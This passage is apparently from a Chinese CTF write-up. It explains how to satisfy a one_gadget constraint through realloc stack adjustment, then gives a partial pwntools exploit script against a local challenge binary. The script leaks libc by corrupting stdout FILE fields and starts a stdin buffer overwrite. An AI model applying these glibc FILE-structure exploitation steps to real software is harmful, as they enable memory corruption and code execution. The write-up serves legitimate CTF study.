 [![](https://p3.ssl.qhimg.com/t011f82c190ae44b2a7.png)](https://p3.ssl.qhimg.com/t011f82c190ae44b2a7.png)

很显然无法满足，因此需要用realloc抬栈的技巧

第三个OGG要求rsp+0x70处为0，而栈环境中rsp+0x88为0，如果把rsp抬升0x18就可以满足OGG的要求，这就要求多pop 3次，因此我们选择从realloc+6进入函数即可

[![](https://p2.ssl.qhimg.com/t01df641a8a837aecf0.png)](https://p2.ssl.qhimg.com/t01df641a8a837aecf0.png)



## EXP

```
#! /usr/bin/python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
context(arch='amd64', os='linux')

#elf = ELF('./1')
sh = process('./corporate_slave')
proc_base = sh.libs()[sh.cwd + sh.argv[0].strip('.')]
libc = ELF('./libc.so.6')

def Log(val):
    log.success('%s = %s'%(str(val), hex(eval(val))))

def Cmd(i, wait=True):
    if(wait):
        sh.recvuntil('&gt;&gt;')
    else:
        sleep(0.5)    
    sh.sendline(str(i))

def Add(a_sz, r_sz, cont, wait=True):
    Cmd(1, wait)

    if(wait):
        sh.recvuntil('Alloc Size: ')
    else:
        sleep(0.5)
    sh.sendline(str(a_sz))

    if(wait):
        sh.recvuntil('Read Size: ')
    else:
        sleep(0.5)
    sh.sendline(str(r_sz))

    if(wait):
        sh.recvuntil('Data:')
    else:
        sleep(0.5)
    sh.send(cont)

#leak libc addr
Add(0x200000, 0x5ed760+1, 'A\n')        #stdout-&gt;_IO_read_end = 0x00007ffff7dd0700
Add(0x200000, 0x7ee770+1, 'B\n', False)    #stdout-&gt;_IO_write_base = 0x00007ffff7dd0700
sh.recvuntil(p64((1&lt;&lt;64)-1)+p64(0))
libc.address = u64(sh.recv(8)) - 0x3eb780
Log('libc.address')

#stdin attack
Add(0x200000, 0x9eea28+1, 'C\n')        #stdin-&gt;_IO_buf_base = stdin
```